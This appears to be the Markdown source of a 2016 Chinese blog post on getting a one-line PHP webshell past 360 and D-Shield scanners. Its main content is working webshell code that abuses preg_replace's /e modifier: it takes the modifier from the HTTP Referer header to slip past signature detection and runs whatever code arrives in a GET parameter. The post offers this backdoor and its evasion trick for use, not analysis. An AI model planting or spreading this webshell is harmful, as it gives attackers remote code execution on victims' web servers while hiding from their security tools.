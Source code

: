 ```yaml
---
layout: post
title:  "过360查杀D盾一句话"
date:   2016-11-12 17:04:52
comments: true
categories: php update
---
```

preg_replace(//) 函数加/e可以执行代码 。 这里的 “e”我使用referer的方式来获取， 绕过了检测

{% highlight php %}
<?php
$server= $\_SERVER['HTTP_REFERER'];
$s[1]=$server;
preg_replace("/t/{$s[1]}",$\_GET["h"],"t");


{% endhighlight %}
